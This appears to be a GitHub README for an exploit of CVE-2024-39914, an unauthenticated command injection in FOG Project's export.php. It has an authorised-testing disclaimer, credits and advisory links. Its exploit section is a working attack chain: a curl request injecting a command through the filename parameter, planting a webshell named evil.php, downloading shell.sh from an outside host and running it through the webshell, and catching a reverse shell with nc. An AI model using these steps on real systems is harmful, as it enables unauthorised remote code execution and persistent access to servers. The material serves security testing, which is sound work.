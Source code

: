 ⚠️ WARNING: This script is provided for educational and authorized penetration testing purposes only. Do not use it on systems you do not own or have explicit permission to test.

🙏 CREDITS: The original script is from Tom Elliot [@mastacontrola](https://github.com/mastacontrola) and can be found [here](https://github.com/FOGProject/fogproject/security/advisories/GHSA-7h44-6vq6-cq8j)

📚 REFERRENCES:
1. [OffSec: CVE-2024-39914 – Unauthenticated Command Injection in FOG Project’s export.php](https://www.offsec.com/blog/cve-2024-39914/)
2. [@mastacontrola: GHSA-7h44-6vq6-cq8j ](https://github.com/FOGProject/fogproject/security/advisories/GHSA-7h44-6vq6-cq8j)


## Exploit
Verify that the system is vulnerable before using the exploit.

1. Start a web server. Monitor the logs to confirm hit from target IP.
   ```bash
   python3 -m http.server 80
   ```
   
2. Send a payload to the system.
   ```bash
   curl -X POST "http://192.168.186.237/fog/management/export.php?filename=\$(curl+192.168.45.210)&type=pdf" \
        -d "fogguiuser=fog&nojson=2"
   ```

3. Proceed to use the script to insert webshell to the system, if vulnerable. Test that the webshell works.
   ```bash
   python3 ./CVE-2024-39914.py -t 192.168.138.88 -p 80 -f evil.php

   curl http://192.168.138.88/fog/management/evil.php?cmd=id
   ```

4. Transfer a reverse shell to the target via the webshell. Remember to encode the URL. The listener should catch a shell.
   ```bash
   curl http://192.168.138.88/fog/management/evil.php?cmd=curl%20-O%20http://192.168.45.168/shell.sh

   rlwrap nc -lvnp 443
   curl http://192.168.138.88/fog/management/evil.php?cmd=bash%20./shell.sh
   ```
